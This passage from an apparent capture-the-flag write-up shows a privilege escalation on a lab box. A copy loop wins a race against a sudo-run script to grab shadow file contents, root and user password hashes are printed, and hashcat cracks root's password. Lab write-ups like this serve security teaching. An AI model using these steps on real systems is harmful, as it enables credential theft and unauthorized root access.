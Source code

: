 
### Path 1: shadow Race Condition

What I believe is the intended path here is to take advantage of the fact that
the script writes a copy of the `shadow` file to disk, sleeps and does other
work, and then deletes it. That means there’s a time in which I can read it if
the permissions aren’t set right.

I’ll run to constantly be trying to copy whatever is in `/tmp/SSH` to
`/dev/shm`:

    
    
    robert@obscure:~$ while true; do cp -R /tmp/SSH/* /dev/shm/ 2>/dev/null; done
    

I’ll SSH in to get another terminal as robert and run `BetterSSH.py`​, and
afterwards, there’s a file in `/dev/shm/SSH/`:

    
    
    robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: 
    Enter password: 
    Invalid user
    robert@obscure:/dev/shm$ ls
    PMcu46FZ
    

In the file, there’s hashes (and a lot of extra whitespace):

    
    
    robert@obscure:/dev/shm$ cat PMcu46FZ 
    root
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
    18226
    0
    99999
    7
    
    
    
    
    robert
    $6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
    18163
    0
    99999
    7
    

I can crack that easily in `hashcat`:

    
    
    root@kali# hashcat -m 1800 -a 0 -o root.cracked shadow /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    root@kali# cat root.cracked 
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:mercedes
    